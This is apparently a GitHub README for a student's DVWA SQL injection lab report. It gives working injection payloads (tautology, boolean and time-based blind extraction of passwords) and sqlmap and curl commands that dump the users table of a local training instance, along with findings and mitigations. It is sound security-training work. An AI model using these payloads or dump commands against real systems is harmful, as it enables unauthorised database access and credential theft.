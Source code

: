 DVWA — SQL Injection Labs (Task 15) — Report

Short description
This repository contains my Task 15 report for the DVWA SQL Injection labs (Low, Medium, High). It documents steps taken, commands used, evidence (screenshots / output files), and recommended mitigations. The report is intended for learning / lab purposes only — do not use these techniques against systems you do not own or have explicit permission to test.

Contents

report/ — The written report (PDF / DOCX / Markdown) and screenshots.

README.md — this file.

Environment

DVWA host: http://127.0.0.1/DVWA/ (local VM)

DVWA changelog: v1.9 (changelog shows v1.10 Not Yet Released)

Tools: Firefox, Burp Suite (optional), sqlmap (1.9.x), curl, MySQL/MariaDB, php (Apache/PHP stack)

User: lab environment; all testing performed on locally-hosted DVWA instance.

How to reproduce (high level)

These reproduce instructions assume you have a running DVWA instance on 127.0.0.1 and a valid session cookie if needed.

1. Prepare

Open DVWA → Setup → Create/Reset DB.

Log in as admin (or other test account).

Set security level to the target (Low / Medium / High) from the DVWA Security page.

2. Low (direct injection)

Manual payload (in id GET parameter):

?id=1' OR '1'='1' -- -


Example sqlmap:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=REDACTED" --level=5 --risk=3 --batch --dbs

3. Medium (select / POST)

Replace the select with an input (DevTools) or intercept/modify POST in Burp:

id=1 OR 1=1 -- -   # POST body: id=1 OR 1=1 -- -&Submit=Submit


Curl example:

curl -s -X POST -H "Cookie: PHPSESSID=REDACTED" \
  --data "id=1 OR 1=1 -- -&Submit=Submit" \
  "http://127.0.0.1/DVWA/vulnerabilities/sqli/"


sqlmap (POST):

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  -D dvwa -T users --dump --batch

4. High (blind — boolean/time)

Boolean example:

1' AND SUBSTRING((SELECT database()),1,1)='d' -- -


Time-based example (MySQL):

1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='a', SLEEP(5), 0) -- -


Force sqlmap to use time technique:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  --technique=T --time-sec=5 --level=5 --risk=3 -D dvwa -T users --dump


Note: In my lab sqlmap succeeded but manual SLEEP() showed no measurable delay — see evidence/curl_time_test.txt and the report for analysis and reasons (SQLite backend, filtering, buffering, etc.).

##Findings — short summary

Low: direct injectable parameter; data extraction via UNION / boolean succeeded.

Medium: parameter moved to POST and uses a <select>, but injection is still possible by modifying the request (DOM edit, proxy, or crafted POST).

High: direct output blocked; sqlmap used blind techniques (boolean/time) to extract data. Manual SLEEP() payloads did not show an observable delay in my environment — likely due to backend settings or filtering — but boolean extraction worked.

##Conclusion & recommended mitigations

Root cause: unsanitized user data concatenated into SQL queries.

Recommendations:

Replace dynamic SQL concatenation with prepared statements / parameterized queries (PDO or mysqli prepared statements).

Rotate any test credentials exposed during the lab and restrict DB privileges (least privilege).

Add input validation, output encoding, and server-side WAF/rate-limiting.

Re-test after fixes using the same payloads and automated tools.

Contact

If you need clarifications or want the sanitized sqlmap/curl output adapted for inclusion in another report, open an issue or contact me via GitHub.
Note: Damn Vulnerable Web Application (DVWA) is third-party software created for security training. This repository does not claim ownership of DVWA itself. All materials here relate to my educational use of DVWA for lab exercises, testing, and reporting.

Disclaimer: All materials, commands, and scripts in this repository were created and executed strictly for educational purposes on a local lab instance under my control. Do not use these techniques against systems you do not own or have explicit written permission to test. The author accepts no liability for misuse. Sensitive values (cookies, passwords, keys) have been redacted; do not commit real credentials.

# Warning

**Warning:** These scripts and instructions are provided for educational use on a local lab environment only. Use at your own risk. The author accepts no responsibility or liability for any damage, loss, or legal consequences that may result from misuse or running these commands on systems you do not own or have explicit permission to test.

---

